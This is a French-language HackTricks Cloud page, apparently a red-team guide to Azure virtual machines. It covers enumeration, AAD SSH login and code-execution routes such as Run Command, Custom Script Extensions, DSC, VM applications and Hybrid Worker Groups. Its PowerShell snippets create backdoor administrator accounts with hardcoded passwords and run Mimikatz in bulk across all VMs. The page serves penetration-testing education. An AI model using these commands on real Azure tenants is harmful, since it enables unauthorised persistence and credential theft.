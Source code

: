 # Az - Machines Virtuelles & Réseau

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informations de base

[From the docs:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Les machines virtuelles Azure sont l'un des plusieurs types de [ressources informatiques à la demande et évolutives](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que propose Azure. En général, vous choisissez une machine virtuelle lorsque vous avez besoin de plus de contrôle sur l'environnement informatique que les autres options ne le permettent. Cet article vous fournit des informations sur ce que vous devez considérer avant de créer une machine virtuelle, comment vous la créez et comment vous la gérez.

## Informations sur le réseau Azure

Les réseaux Azure contiennent **différentes entités et façons de les configurer.** Vous pouvez trouver une brève **description,** **exemples** et **commandes d'énumération** des différentes entités réseau Azure dans :

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** offre une solution d'accès RDP (Remote Desktop Protocol) et SSH (Secure Shell) sécurisée et entièrement gérée via SSL à travers le portail Azure. Il est intégré dans un réseau virtuel Azure, permettant la connectivité RDP et SSH aux machines virtuelles en utilisant des IP privées, évitant ainsi le besoin d'IP publiques. Cela en fait une alternative plus sûre et plus pratique aux méthodes traditionnelles impliquant des attributions d'IP publiques et des configurations de règles NSG pour l'accès aux machines virtuelles. Les développeurs et le personnel informatique peuvent accéder en toute sécurité aux machines virtuelles depuis le portail Azure en utilisant leurs navigateurs web, simplifiant ainsi le processus pour les environnements de développement et de test.

Pour lister tous les hôtes Azure Bastion dans votre abonnement, vous pouvez utiliser la commande suivante :

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Énumération des VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Exécuter des commandes dans une VM**

### **Connexion AAD dans VM**

Il est possible de permettre l'accès aux utilisateurs authentifiés via AzureAD. Par exemple, en essayant d'accéder à une **linux VM** : `ssh username@azure-corp.com@1.1.1.1` (il est important d'**utiliser l'email** avec le azurecorp utilisé lors de la tentative de connexion) vous pourriez obtenir une erreur comme :

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Il suffit de **suivre ces instructions** en allant sur [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) et en indiquant le code, utilisez l'email et le mot de passe comme identifiants et vous pourrez vous connecter via SSH (si cet utilisateur a suffisamment de permissions pour le faire : rôle `Virtual Machine Administrator Login` ou `Virtual Machine User Login`).

### **Exécuter la commande**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Exécuter l'extension de script personnalisé**

Les extensions de machine virtuelle (VM) Azure sont **de petites applications** qui fournissent des configurations et des **tâches** d'automatisation après le déploiement sur les **VM Azure**. Par exemple, si une machine virtuelle nécessite l'installation de logiciels, une protection antivirus ou la capacité d'exécuter un script à l'intérieur, vous pouvez utiliser une extension de VM.

Par conséquent, si vous avez accès pour l'écrire, vous pouvez exécuter du code arbitraire :
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) est un outil PowerShell similaire à Ansible, utilisé pour configurer un hôte par le biais de code. DSC s'intègre à Azure, permettant le téléchargement de fichiers de configuration spécifiques. Ces fichiers doivent respecter une syntaxe stricte. Notamment, l'extension DSC dans Azure peut exécuter des commandes à partir de fichiers qui répondent à certains critères de formatage, même si la syntaxe n'est pas correcte selon les normes DSC, comme le montre la figure fournie.

L'exécution de ces commandes est facilitée par la fonction [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) dans Az PowerShell. Les exigences incluent un fichier **.PS1** avec une fonction définie et le fichier doit être compressé dans un fichier **.zip**. Même si la syntaxe peut ne pas être précise pour DSC, le code s'exécutera toujours. Cependant, l'extension marquera l'état d'exécution comme "échec", et aucune sortie de la commande ne sera visible en raison du statut étant écrasé par le message d'échec.

### VM Application Definitions

Les définitions d'application VM permettent le déploiement répétable d'applications versionnées sur une VM Azure. Cette ressource prend en charge le déploiement et la mise à jour d'applications sur plusieurs VMs. Pour configurer cela, plusieurs étapes sont nécessaires, impliquant des commandes comme **`New-AzGalleryApplication`** et **`New-AzGalleryApplicationVersion`** dans Az PowerShell.

L'exécution d'applications ou de commandes par cette méthode implique le **"VMAppExtension"**, qui est installé automatiquement lorsqu'une application est appliquée à une VM. L'extension récupère le fichier à partir de l'URI spécifié et le nomme exactement comme l'application, sans extension. Pour exécuter correctement le fichier, le champ "ManageActions" dans l'appel API REST doit être configuré pour renommer le fichier avec l'extension appropriée. La configuration de cette méthode, une fois terminée, ressemblera à la structure montrée dans la figure fournie.

Cependant, cette méthode d'exécution est relativement lente, prenant environ 3-4 minutes pour exécuter une application ou une commande. Les fichiers liés à ce processus sont stockés dans des répertoires spécifiques (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` pour la copie de l'application et `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` pour l'état d'exécution).

Les deux techniques offrent des moyens uniques d'exécuter des commandes et de déployer des applications dans des environnements Azure, chacune avec son propre ensemble d'exigences, d'étapes et de considérations.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) sont une fonctionnalité d'Azure qui permet aux Runbooks, configurés dans un compte d'automatisation, d'être exécutés sur une machine virtuelle Azure (VM) qui fait partie du HWG désigné. Cette exécution est facilitée par une extension installée sur la VM, qui déploie le code du Runbook sur la VM. Un aspect significatif de ce processus est que les véritables identifiants ne sont pas un facteur dans l'exécution car le code s'exécute avec des privilèges élevés, spécifiquement en tant que **SYSTEM** ou root, comme illustré dans la figure fournie.

Un détail crucial pour ceux utilisant des VMs Windows 10 est la nécessité de spécifier la version de PowerShell pour le Runbook. Il doit être configuré pour s'exécuter en tant que PowerShell Version 5.1 au lieu de 7.1. Cette exigence découle du fait que PowerShell 7.1 n'est pas installé par défaut sur ces VMs, entraînant un échec de l'exécution du script si la version 7.1 est spécifiée.

Cette fonctionnalité d'Azure offre une méthode robuste pour automatiser et gérer des tâches dans des environnements hybrides, permettant une gestion et une exécution centralisées des tâches sur les VMs Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
